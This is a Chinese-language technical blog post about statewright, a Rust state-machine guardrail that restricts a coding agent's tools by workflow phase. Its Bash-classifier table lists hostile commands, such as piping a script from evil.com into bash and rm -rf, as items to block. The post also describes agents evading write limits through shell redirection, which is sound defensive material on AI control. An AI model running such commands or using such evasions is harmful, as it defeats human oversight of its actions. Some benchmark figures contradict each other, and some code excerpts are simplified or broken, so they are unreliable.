



> **Agents are suggestions, states are laws.**
> —— statewright

如果让你设计 Coding Agent 的"宪法"，你会怎么写？

是把规则塞进 `CLAUDE.md` 让 LLM 自觉遵守？给每个 tool 加一段 prompt 警告？还是雇一个人类在每个危险工具前点确认？

`statewright`（505⭐，Apache-2.0，Rust 2024）的答案是——**别相信模型，让状态机说了算**。把"Agent 在规划态只能读、到了实现态才能写、提交前必须审批"这种约束，**写进一份 JSON 工作流定义**，让 Rust 引擎在每次 tool call 时做**确定性裁决**：要么允许、要么拒绝、要么建议跃迁。整套机制完全脱离 LLM 推理——**Agent 是提议者，状态机是立法者**。

读完这篇你能拿到：

- 🎯 **5 大原语模板**：State × Tool Enforcer / Bash Classifier 越权检测 / Tool Privilege Ladder / Sub-Machine Invoke / Interrupt $return History 模式
- 🦀 **Rust 引擎 + Ollama 直驱**：0 LLM-in-the-loop 评估器，每 1 次 tool call 是 O(1) 哈希查表
- 🔌 **5 类适配器**：Claude Code / Codex / Cursor / opencode / Pi 一套工作流横跨
- 📊 **SWE-bench 实测**：13GB 以下的本地模型加护栏后从 2/10 → 10/10，**不靠大模型砸钱**
- 💻 **可执行代码**：从 JSON 工作流到 Rust 状态机 + Bash 分类器，4 个真实可运行模块

---

## 一、为什么 Coding Agent 需要"状态法"？

### 1.1 Agent 的 5 种典型失控

给 Coding Agent 40+ 个工具 + 一个开放性问题，它会怎么做？statewright 的 README 直接点名：

1. **重复读同一文件 5 次**：read loop death spiral
2. **review 阶段调用 Edit**：在人工 review 时偷偷改代码
3. **测试还没过就部署**：跳过 testing 直接 deploy
5. **`cat > file << EOF` 绕过 Write 限制**：用 Bash 重定向绕过写权限检查

**常规解决方案**：把模型做大、把 prompt 加长、把 context 塞满——但**这只在概率上把失败率压低，没法根除**。

statewright 给出的**反常识结论**：与其让模型更大，**不如让问题更小**。

### 1.2 "状态机约束"为什么有效

**核心观察**：Agentic 工作**本质上是有状态的**——规划 → 实现 → 测试 → 提交 → 完成，每一步的合法操作集是不同的：

| 阶段 | 合法工具 | 不合法工具 | 设计意图 |
|------|----------|-----------|----------|
| 规划（planning） | read_file / grep / git_log | write_file / Bash | 强制先理解再动手 |
| 实现（implementing） | read_file / write_file / edit_file | deploy / database_mutate | 写代码 ≠ 部署 |
| 测试（testing） | read_file / run_test | git_commit / deploy | 测试前不能提交 |
| Review | read_file / git_diff | bash / write_file | review 阶段冻结代码 |
| 提交（committing） | git_add / git_commit | bash / write_file | 只能 commit 已有改动 |

把这种约束**编码进状态机的 `allowed_tools` 字段**，让 Rust 引擎在每次 tool call 时裁决——模型**根本无法越界**，因为越界的 tool call 在 MCP Gateway 层就被物理拒绝。

### 1.3 1 个真实数据点

statewright 团队的 SWE-bench 5 题子集（**不是完整 2294 题**）实测：

| 模型 | 体积 | 裸跑 5 题 | 加 statewright 护栏 |
|------|------|-----------|--------------------|
| gemma3 | 3.3GB | 0/5 | 0/5（小于 13GB 模型无法做精细 edit，与护栏无关） |
| gemma4:e2b | 7.2GB | 1/5 | 0/5（同上） |
| **gpt-oss:20b** | 13.8GB | 2/5 | **5/5** ✨ |
| gemma4:31b | 19.9GB | 3/5 | 5/5 |
| llama3.3 | 42.5GB | 2/2* | 2/2* |

**13GB 是一个魔法阈值**——以下模型识别 bug 没问题，但生成"外科手术式"edit 时会重写整个文件；**以上模型加护栏后，从 2/5 直接拉到 5/5**。这不是模型在进步，是**工具空间变小后，模型被迫"认真思考"**。

---

## 二、整体架构：3 层独立可用的 Rust 组件

statewright 的 workspace 切成 5 个 crate，**前 3 个就是 3 层架构**：



**3 层各自可独立用**：

1. **Engine**（`crates/engine`，纯 Rust，无 LLM，无运行时依赖）—— 任何需要"状态机引擎"的项目都可以嵌入
2. **Agent**（`crates/agent` 的 `sw-agent` 二进制）—— 直接连 Ollama 跑 LLM 推理 + 状态机裁决 + 输出 JSONL 事件流
3. **MCP Gateway**（`crates/mcp-gateway` 的 `statewright-gateway` 二进制）—— 生产级 MCP 代理，对所有 tool call 做 shell-classifier 级裁决

**额外 2 个 crate**：`crates/cli`（命令行工具）+ `crates/tui`（TUI 界面），不参与核心机制。

> 💡 **关键设计**：Engine 是**完全独立的纯 Rust 库**，没有 tokio/axum/tracing 依赖（只依赖 serde + serde_json），可以直接被任何项目 import 做状态机求值——这种"机制和策略分离"是 Harness Engineering 的**头等设计原则**。

---

## 三、核心原语 1：State × Tool Enforcer（状态 × 工具裁决器）

这是 statewright 的**最核心原语**——给定当前状态 + 一组请求工具，**O(1) 哈希查表**返回允许/拒绝/隐式跃迁建议。

### 3.1 MachineDefinition 数据结构

`crates/engine/src/types.rs` 定义了整个系统的骨架：

```rust
/// A complete state machine definition.
#[derive(Debug, Clone, Serialize, Deserialize)]
pub struct MachineDefinition {
    pub id: String,                                  // 工作流唯一标识
    pub initial: String,                              // 起始状态
    pub context: serde_json::Value,                   // 跨状态共享上下文
    pub states: BTreeMap<String, StateDef>,           // 状态字典（有序）
    pub guards: BTreeMap<String, GuardDef>,           // 守卫函数
    pub meta: Option<MachineMeta>,                    // 任务元数据
    pub interrupts: BTreeMap<String, InterruptDef>,   // 文件编辑触发的反应式跳转
}

/// Definition of a single state.
#[derive(Debug, Clone, Serialize, Deserialize)]
pub struct StateDef {
    pub on: BTreeMap<String, TransitionDef>,          // event → transition
    pub state_type: Option<StateType>,                // Normal / Final
    pub allowed_tools: Option<Vec<String>>,           // ✅ 白名单
    pub disallowed_tools: Option<Vec<String>>,        // ❌ 黑名单（优先）
    pub instructions: Option<String>,                 // 该阶段给 LLM 的指令
    pub max_iterations: Option<u32>,                  // 死循环保险丝
    pub safe_next: Option<String>,                    // 模糊事件兜底目标
    pub max_edit_lines: Option<u32>,                  // 单状态可编辑行数上限
    pub allowed_commands: Option<Vec<String>>,        // Bash 命令白名单
    pub blocked_env: Option<Vec<String>>,             // 屏蔽环境变量
    pub model: Option<String>,                        // 推荐模型
    pub thinking_level: Option<String>,               // 推理强度
    pub direct_execution: Option<bool>,               // 委托给 sw-agent 跑
    pub model_ladder: Option<Vec<serde_json::Value>>, // 模型升级阶梯
}
```

**两个值得注意的设计**：

1. **`allowed_tools` 与 `disallowed_tools` 二选一**，disallowed 优先——这种"反向白名单"在工具集超大时（例如 100+ MCP tools）反而更易维护
2. **`max_iterations` + `safe_next`** 是**死循环兜底双保险**——状态内循环超阈值直接 failed，未知事件回落 safe_next（fallback-friendly）

### 3.2 ToolEnforcer 完整实现（574 字符内）

`crates/agent/src/tool_enforcer.rs` 的核心裁决函数（**精炼版**）：

```rust
/// Given a state machine definition and the current state, check which
/// of the requested tools are allowed and which are blocked.
pub fn enforce_tools(
    definition: &MachineDefinition,
    current_state: &str,
    requested_tools: &[String],
) -> ToolEnforcementResult {
    let allowed_set = get_allowed_tools(definition, current_state);

    let mut allowed = Vec::new();
    let mut blocked = Vec::new();

    for tool in requested_tools {
        match &allowed_set {
            Some(permitted) => {
                if permitted.contains(tool) {
                    allowed.push(tool.clone());
                } else {
                    blocked.push(tool.clone());
                }
            }
            None => {
                // 没设 allowed_tools —— 全部允许
                // 但 final 状态例外（终态零工具）
                let is_final = definition
                    .states
                    .get(current_state)
                    .and_then(|s| s.state_type.as_ref())
                    .is_some_and(|t| matches!(t, StateType::Final));

                if is_final {
                    blocked.push(tool.clone());
                } else {
                    allowed.push(tool.clone());
                }
            }
        }
    }

    // 🔑 关键：如果被拒的工具在下一状态可用，自动建议跃迁事件
    let implicit_transition = if !blocked.is_empty() {
        find_implicit_transition(definition, current_state, &blocked)
    } else {
        None
    };

    ToolEnforcementResult { allowed, blocked, implicit_transition }
}
```

**3 个设计哲学**：

1. **null = 全部允许**（fail-open 模式）：state 没设 `allowed_tools` 时不做限制，但 final 状态例外——避免"忘记配置就拒掉所有工具"
2. **隐式跃迁建议**：如果 Agent 想调的工具在下一状态可用，**主动告诉它"用 X 事件可以跳过去"**，比纯错误信息友好 10 倍
3. **纯函数无副作用**：O(1) 哈希查表，可缓存、可测试、可并发——这就是 Harness Engineering 中"机制和策略分离"的极致体现

### 3.3 一个真实工作流示例

statewright 的 README 给出了 bug fix 的完整 JSON：

```json
{
  "id": "fix-login-bug",
  "initial": "planning",
  "meta": { "task_type": "bug_fix", "danger_level": "moderate", "estimated_steps": 6 },
  "states": {
    "planning": {
      "allowed_tools": ["read_file", "search_files", "grep", "git_log", "git_diff"],
      "instructions": "Analyze the bug. Read relevant files. Identify root cause.",
      "on": { "PLAN_READY": "implementing", "FAIL": "failed" }
    },
    "implementing": {
      "allowed_tools": ["read_file", "write_file", "edit_file"],
      "instructions": "Implement the fix based on your analysis.",
      "on": { "DONE": "testing", "FAIL": "failed" }
    },
    "testing": {
      "allowed_tools": ["read_file", "run_test"],
      "instructions": "Run tests to verify the fix works and nothing is broken.",
      "on": {
        "TESTS_PASS": {
          "target": "review",
          "requires_approval": true,
          "approval_message": "Tests passed. Review changes before committing?"
        },
        "TESTS_FAIL": "implementing",
        "FAIL": "failed"
      }
    },
    "review": {
      "allowed_tools": ["read_file", "git_diff"],
      "instructions": "Present changes for human review.",
      "on": { "APPROVED": "committing", "REJECTED": "implementing" }
    },
    "committing": {
      "allowed_tools": ["git_add", "git_commit"],
      "instructions": "Stage and commit the changes.",
      "on": { "COMMITTED": "completed", "FAIL": "failed" }
    },
    "completed": { "type": "final" },
    "failed": { "type": "final" }
  },
  "guards": {}
}
```

**4 个亮点**：

| 阶段 | allowed_tools | 关键设计 |
|------|--------------|----------|
| planning | **只有 read 类** | 强制先理解再动手——没有写权限 |
| testing → review | `requires_approval: true` | 测试通过 ≠ 直接提交，**强制人工 review** |
| review | **只读** | review 阶段禁止任何修改（包括 Bash） |
| committing | 只有 git_add / git_commit | 防止"提交时意外 push 到 main" |

### 3.4 状态机 vs DAG 的根本区别

README 直接点出：

> State machines **loop and retry** (unlike DAGs), which is what agentic work actually needs.

| 维度 | DAG | State Machine |
|------|-----|---------------|
| 拓扑 | 无环有向图 | **可以有环** |
| 失败处理 | 失败 → 整图重跑 | **回到 implementing 重试** |
| Agent 适配 | 需要 LLM 推理"我该走哪条边" | **Tool call 直接裁决** |

DAG 适合**一次性脚本**（CI/CD、数据流水线），State Machine 适合**需要反复迭代的工作**（Agent 试错、修复、review、修改、再测试）。

---

## 四、核心原语 2：Bash Classifier（Shell 命令分类器）

这是 statewright 解决"`cat > file << EOF` 绕过 Write 限制"问题的杀手锏——**shell 命令分类成 9 类 OpClass，按需升级权限要求**。

### 4.1 9 类 OpClass + 权限映射

```rust
/// Operation class for a shell command segment.
#[derive(Debug, Clone, Copy, PartialEq, Eq)]
pub enum OpClass {
    FileWrite,       // 写入新内容 → 要 Write
    FileModify,      // 就地修改     → 要 Write
    FileRead,        // 读取内容     → 要 Read
    ContentSearch,   // 内容搜索     → 要 Read 或 Grep
    FileSearch,      // 文件名搜索   → 要 Read 或 Glob
    Destructive,     // 销毁操作     → 永远 blocked（除非显式开）
    Network,         // 网络         → 要 WebFetch
    GitWrite,        // Git 写入     → 显式开
    GitRead,         // Git 读取     → 要 Read
    Passthrough,     // 无害/无法分类 → Bash 允许即可
}

impl OpClass {
    pub fn required_tools(&self) -> &'static [&'static str] {
        match self {
            OpClass::FileWrite | OpClass::FileModify => &["Write"],
            OpClass::FileRead => &["Read"],
            OpClass::ContentSearch => &["Read", "Grep"],
            OpClass::FileSearch => &["Read", "Glob"],
            OpClass::Destructive => &["__DESTRUCTIVE__"],   // 哨兵：永远 blocked
            OpClass::Network => &["WebFetch"],
            OpClass::GitWrite => &["__GIT_WRITE__"],       // 哨兵：需显式开
            OpClass::GitRead => &["Read"],
            OpClass::Passthrough => &[],                    // 空 = Bash 即可
        }
    }
}
```

**哨兵设计（`__DESTRUCTIVE__` / `__GIT_WRITE__`）**——这不是 bug 是 feature：**如果 allowed_tools 列表里没有这些哨兵类名，分类器直接拒绝**，而不是"恰好有 Write 就能跑"。这避免了"看起来有 Write 就放行 `rm -rf /`"的灾难。

### 4.2 `check_against_allowed` 核心函数

```rust
pub fn check_against_allowed(command: &str, allowed_tools: &[String]) -> Result<(), String> {
    let classes = classify(command);

    for class in &classes {
        let required = class.required_tools();
        if required.is_empty() { continue; }  // Passthrough 放行

        // 哨兵 → 永远 blocked（fail-closed）
        if required.iter().any(|r| r.starts_with("__")) {
            return Err(format!(
                "Command '{}' performs a {:?} operation which is not permitted.",
                truncate_command(command), class,
            ));
        }

        // 必须至少有一个 required tool 在白名单里
        let has_required = required.iter().any(|req| {
            allowed_tools.iter().any(|allowed| allowed.eq_ignore_ascii_case(req))
        });

        if !has_required {
            return Err(format!(
                "Command '{}' requires {} in allowed_tools.",
                truncate_command(command), class,
                required.join(" or "),
            ));
        }
    }
    Ok(())
}
```

### 4.3 `classify` 的精细规则

`crates/mcp-gateway/src/bash_classifier.rs` 的 36,668 字符里，**最精彩的是`split_segments` 处理 `&&` `;` `|` 重定向**：

```rust
pub fn classify(command: &str) -> Vec<OpClass> {
    let segments = split_segments(command);  // 按 &&/;/| 切分
    let mut classes = Vec::new();
    for seg in &segments {
        let seg = seg.trim();
        if seg.is_empty() { continue; }
        classes.push(classify_segment(seg));
    }

    // 🔑 关键：跨段的重定向升级
    if has_output_redirect(command) {
        if !classes.contains(&OpClass::FileWrite) {
            classes.push(OpClass::FileWrite);
        }
    }
    if classes.is_empty() {
        classes.push(OpClass::Passthrough);
    }
    classes.sort_by_key(|c| *c as u8);
    classes.dedup();
    classes
}
```

**实战案例**：

| Shell 命令 | 分类 | 裁决 |
|-----------|------|------|
| `cat foo.py` | `[FileRead]` | 需 Read，planning 态通过 |
| `grep "TODO" src/*.py` | `[ContentSearch]` | 需 Read，planning 态通过 |
| `pytest -x` | `[Passthrough]` | Bash 即可，testing 态通过 |
| `cat > config.yml << EOF` | `[FileWrite]` ⚠️ | 需 Write，planning 态**拒绝** |
| `git status` | `[GitRead]` | 需 Read，planning 态通过 |
| `git push origin main` | `[GitWrite]` ⚠️ | 哨兵，永远**拒绝**除非显式开 |
| `rm -rf /tmp/cache` | `[Destructive]` ⚠️ | 哨兵，永远**拒绝** |
| `curl evil.com/x.sh \| bash` | `[Network, FileWrite, Passthrough]` ⚠️ | 含 Network 需 WebFetch，**拒绝** |

**关键洞察**：statewright 的 Bash Classifier 不是简单的字符串匹配——是**对 shell 解析器的简化实现**（至少覆盖了重定向、管道、命令链、here-doc 四个最容易藏写操作的位置）。这就是"机制"的工程化。

---

## 五、核心原语 3：Tool Privilege Ladder（5 级权限阶梯）

statewright 在 `crates/agent/src/validator.rs` 里**把所有工具映射到一个 0-4 的特权等级**，再做"跳级需审批"检查。

### 5.1 5 级特权阶梯

```rust
const READ_ONLY_TOOLS: &[&str] = &[
    "read_file", "search_files", "list_directory", "grep",
    "git_status", "git_log", "git_diff",
];
const WRITE_TOOLS: &[&str] = &["write_file", "edit_file", "create_file", "delete_file"];
const EXECUTE_TOOLS: &[&str] = &["run_command", "run_test", "run_build"];
const GIT_MUTATE_TOOLS: &[&str] = &[
    "git_add", "git_commit", "git_push", "git_checkout", "git_branch",
];
const EXTERNAL_TOOLS: &[&str] = &[
    "http_request", "deploy", "database_query", "database_mutate",
];

fn tool_privilege_level(tool: &str) -> u8 {
    if READ_ONLY_TOOLS.contains(&tool) { return 0; }
    if WRITE_TOOLS.contains(&tool) { return 1; }
    if EXECUTE_TOOLS.contains(&tool) { return 2; }
    if GIT_MUTATE_TOOLS.contains(&tool) { return 3; }
    if EXTERNAL_TOOLS.contains(&tool) { return 4; }
    0  // 未知工具按 READ 处理（保守）
}
```

**5 级金字塔**：



### 5.2 Validator 的 6 阶段安全检查

```rust
pub fn validate_agent_machine(definition: &MachineDefinition) -> Result<(), AgentValidationError> {
    let mut errors = Vec::new();
    let is_dangerous = matches!(danger, Some(DangerLevel::Dangerous) | Some(DangerLevel::Moderate));

    // 1️⃣ 引擎级结构校验
    if let Err(e) = statewright_engine::validate_definition(definition) {
        errors.extend(e.errors);
    }

    // 2️⃣ 必须有 failed 状态且为 Final
    if !has_failed_state(definition) {
        errors.push("machine must have a 'failed' state with type: final".into());
    }

    // 3️⃣ 每个非终态都能 fail（即有 path to failed）
    for state_name in non_final_states(definition) {
        if !can_reach(state_name, "failed", definition) {
            errors.push(format!("state '{}' has no path to 'failed'", state_name));
        }
    }

    // 4️⃣ 初始态不能有 write/execute 工具（仅限 moderate/dangerous）
    if is_dangerous && initial_has_dangerous_tools(definition) {
        errors.push("initial state must not have write/execute tools".into());
    }

    // 5️⃣ 危险机器必须至少一个 approval gate
    if is_dangerous && !has_any_approval_transition(definition) {
        errors.push("machine with danger_level 'moderate'/'dangerous' must have at least one approval gate".into());
    }

    // 6️⃣ 跨 2 级特权升级必须有 approval
    for transition in all_transitions(definition) {
        let current_max = max_tool_privilege(current_state_tools);
        let target_max = max_tool_privilege(target_state_tools);
        if target_max >= 4 && current_max <= 1 && !transition.requires_approval() {
            errors.push(format!("tool escalation from '{}' (level {}) to '{}' (level {}) without approval", ...));
        }
    }

    if errors.is_empty() { Ok(()) } else { Err(AgentValidationError { errors }) }
}
```

**6 阶段检查的设计哲学**：

| 阶段 | 检查项 | 防御目标 |
|------|--------|----------|
| 1 | 引擎结构校验 | JSON 语法 + 必填字段 |
| 2 | failed 状态存在 | **没有失败出口的死循环** |
| 3 | 每个状态能 fail | **不能 fail 的孤立态** |
| 4 | 初始态无写权限 | **上来就 write_file** |
| 5 | 至少一个 approval | **零人工兜底的全自动破坏** |
| 6 | 跳 2+ 级需 approval | **read 直接跳到 deploy** |

**第 6 阶段是精华**——`target_max >= 4 && current_max <= 1` 意味着：**从读状态直接跳到 deploy 状态，必须有人工审批**。这是状态机层面"最小权限提升原则"的工程化实现。

---

## 六、核心原语 4：Sub-Machine Invoke（递归编排）

`crates/agent/src/orchestrator.rs` 提供了**调用子机器的递归编排能力**——工作流可以调用其他工作流。

### 6.1 Orchestrator 主体结构

```rust
/// Orchestrates execution of state machines with sub-machine invocation.
pub struct Orchestrator {
    registry: MachineRegistry,                        // 子机器名 → 定义
    max_child_steps: u32,                            // 单子机最大步数
    max_depth: u32,                                  // 递归最大深度
}

impl Orchestrator {
    pub async fn run(
        &self,
        definition: MachineDefinition,
        client: &OllamaClient,
        max_steps: u32,
    ) -> ExecutionResult {
        self.run_at_depth(definition, client, max_steps, 0).await
    }

    fn run_at_depth<'a>(
        &'a self,
        definition: MachineDefinition,
        client: &'a OllamaClient,
        max_steps: u32,
        depth: u32,
    ) -> std::pin::Pin<Box<dyn std::future::Future<Output = ExecutionResult> + Send + 'a>> {
        Box::pin(async move {
            // 🚨 递归深度保险
            if depth > self.max_depth {
                return ExecutionResult {
                    success: false,
                    final_state: "failed".into(),
                    error: Some(format!("max invoke depth ({}) exceeded", self.max_depth)),
                    ...
                };
            }
            ...
        })
    }
}
```

### 6.2 状态机调用子机器的状态转换

```rust
// 在执行中遇到 invoke transition
ExecutionStatus::AwaitingInvoke {
    machine: String,        // 子机名
    on_complete: String,    // 成功去哪
    on_fail: Option<String>, // 失败去哪
    input: Option<Value>,   // 子机初始 context
} => {
    invocations += 1;
    let child_def = self.registry.get(&machine)?;
    // 递归跑子机
    let child_result = self.run_at_depth(child_def, client, self.max_child_steps, depth + 1).await;

    // 父机根据 on_complete/on_fail 跳转
    match (child_result.success, &on_fail) {
        (true, _) => exec.transition_to(on_complete.clone()),
        (false, Some(fail_target)) => exec.transition_to(fail_target.clone()),
        (false, None) => exec.fail("sub-machine failed"),
    }
}
```

**与 LangGraph 的本质区别**：

| 维度 | LangGraph Subgraph | statewright Sub-Machine |
|------|---------------------|--------------------------|
| 调用形式 | 函数调用 return State | **状态机级 invoke** |
| 失败处理 | 抛异常 | **on_fail 转换到另一状态** |
| 递归限制 | 无内置 | **max_depth + max_child_steps** |
| Context 隔离 | 共享全局 state | **每个子机有独立 context** |

`on_complete` + `on_fail` 双出口 + 递归深度限制 = **Saga Pattern 的状态机版本**。这是 statewright 把 Saga 写进状态机的核心模式。

---

## 七、核心原语 5：Interrupt $return History 模式

这是 statewright 的**最创新原语**——**Agent 编辑文件时自动触发反应式跳转，处理完用 `$return` 回到原状态**。

### 7.1 InterruptDef 数据结构

```rust
/// Interrupt definition — reactive auto-transition triggered by file edits.
/// Uses the History State pattern: detour to a handler state, `$return` resumes.
#[derive(Debug, Clone, Serialize, Deserialize)]
pub struct InterruptDef {
    pub trigger: InterruptTrigger,
    pub target: String,    // 反应式跳到的处理状态
}

pub struct InterruptTrigger {
    pub file_pattern: String,  // glob 模式
}
```

### 7.2 一个真实配置示例

```json
{
  "states": {
    "implementing": { ... },
    "update_changelog": {
      "allowed_tools": ["read_file", "edit_file"],
      "instructions": "Update CHANGELOG.md with this change.",
      "on": { "DONE": "$return" }
    }
  },
  "interrupts": {
    "on_pytest_change": {
      "trigger": { "file_pattern": "**/test_*.py" },
      "target": "run_pytest_suite"
    }
  }
}
```

**解释**：Agent 在 `implementing` 状态编辑任何匹配 `**/test_*.py` 的文件 → **自动跳到 `run_pytest_suite` 状态**跑测试 → 测试完成 → 用 `$return` **回到 `implementing` 继续干**。

### 7.3 $return 的实现原理（crates/engine/src/transition.rs）

```rust
// resolve_return_target 函数核心逻辑
fn resolve_return_target(raw_target: &str, context: &Value) -> Result<String, ...> {
    if raw_target == "$return" {
        // 从 context 中读 _interrupt_return 字段（中断时保存的"返回地址"）
        if let Some(return_state) = context.get("_interrupt_return").and_then(|v| v.as_str()) {
            return Ok(return_state.to_string());
        }
        return Err(...);  // 没有 return 地址 → 报错
    }
    Ok(raw_target.to_string())
}

// 中断触发时的 context 注入
fn handle_interrupt(&mut self, interrupt: &InterruptDef) {
    // 把当前状态写入 context 作为"返回地址"
    self.context.as_object_mut().unwrap().insert(
        "_interrupt_return".to_string(),
        Value::String(self.current_state.clone()),
    );
    self.current_state = interrupt.target.clone();
}
```

**4 个核心特性**：

| 特性 | 描述 |
|------|------|
| **反应式触发** | 不需要 Agent 主动"汇报"——文件写入即触发 |
| **可嵌套** | interrupt 处理的中间态还能再被 interrupt 打断（栈式 context） |
| **自动恢复** | `$return` 关键字 → **不用硬编码返回地址** |
| **可声明** | workflow 作者显式定义触发器和目标，无 LLM 推理介入 |

**与 Watchdog 的区别**：

| 方案 | 实现 | 状态机层介入 |
|------|------|--------------|
| Claude Code Hooks | shell 调用 | ❌ 仅拦截 |
| LangGraph subgraph | 节点调用 | ❌ 手动 wire |
| **statewright Interrupt** | **文件 glob + 自动 $return** | ✅ **声明式声明** |

这是 statewright 的**独家发明**——**把"条件反应"做成了状态机的一等公民**。

---

## 八、跨 Harness 适配：5 类 CLI 工具的 plugin 矩阵

statewright 不只是一个 Rust 引擎，更是一个**多 Harness 适配器**——同一个工作流 JSON 可在 Claude Code / Codex / Cursor / opencode / Pi 上跑。



**集成原理**：每个 adapter 把 statewright 注册为 **MCP server**，提供 3 个标准 tool：

| Tool | 作用 |
|------|------|
| `statewright_start` | 激活指定工作流 |
| `statewright_get_state` | 查询当前状态 + 允许工具集 |
| `statewright_transition` | 触发状态跃迁 |

Agent 调任何**非这 3 个的工具**时——`statewright-gateway`（238K 字符主入口）都会拦截，按当前状态的 `allowed_tools` 做裁决——**完全不依赖 LLM 自觉**。

**独家亮点**：`statewright-gateway` 同时支持 4 种运行模式：

- **stdio 模式**（Claude Code plugin 默认）
- **hook server 模式**（Codex 用 HTTP 回调）
- **remote HTTP+SSE 模式**（云端部署）
- **hook-only 模式**（独立测试）

这种**多协议适配**让 statewright 真正"一次定义、五端运行"。

---

## 九、从零搭建：30 行 Python 实现最小状态机护栏

如果想验证 statewright 的核心思想，**30 行 Python 就可做出最小可用版**：

```python
import json
from dataclasses import dataclass, field
from typing import Any, Optional

@dataclass
class ToolEnforcementResult:
    allowed: list = field(default_factory=list)
    blocked: list = field(default_factory=list)
    implicit_transition: Optional[str] = None

def enforce_tools(definition: dict, current_state: str, requested_tools: list[str]) -> ToolEnforcementResult:
    """statewright core enforcement logic in 30 lines of Python."""
    state_def = definition["states"].get(current_state, {})
    allowed_set = state_def.get("allowed_tools")
    result = ToolEnforcementResult()

    for tool in requested_tools:
        is_final = state_def.get("type") == "final"

        if allowed_set is None:
            # No restrictions set
            if is_final:
                result.blocked.append(tool)
            else:
                result.allowed.append(tool)
        elif tool in allowed_set:
            result.allowed.append(tool)
        else:
            result.blocked.append(tool)

    # Implicit transition: if a blocked tool is in a reachable next state
    if result.blocked:
        for event, transition in state_def.get("on", {}).items():
            target = transition if isinstance(transition, str) else transition["target"]
            target_def = definition["states"].get(target, {})
            target_tools = target_def.get("allowed_tools", [])
            for blocked in result.blocked:
                if target_tools and blocked in target_tools:
                    result.implicit_transition = event
                    break
            if result.implicit_transition:
                break

    return result


# ===== 真实工作流：bug fix =====
bugfix_workflow = {
    "id": "fix-bug",
    "initial": "planning",
    "states": {
        "planning": {
            "allowed_tools": ["read_file", "grep", "git_log"],
            "on": {"PLAN_READY": "implementing", "FAIL": "failed"}
        },
        "implementing": {
            "allowed_tools": ["read_file", "write_file", "edit_file", "run_test"],
            "on": {"DONE": "review", "FAIL": "failed"}
        },
        "review": {
            "allowed_tools": ["read_file", "git_diff"],
            "on": {"APPROVED": "completed", "REJECTED": "implementing"}
        },
        "completed": {"type": "final"},
        "failed": {"type": "final"}
    }
}


# ===== 演示：planning 态的裁决 =====
print("=" * 60)
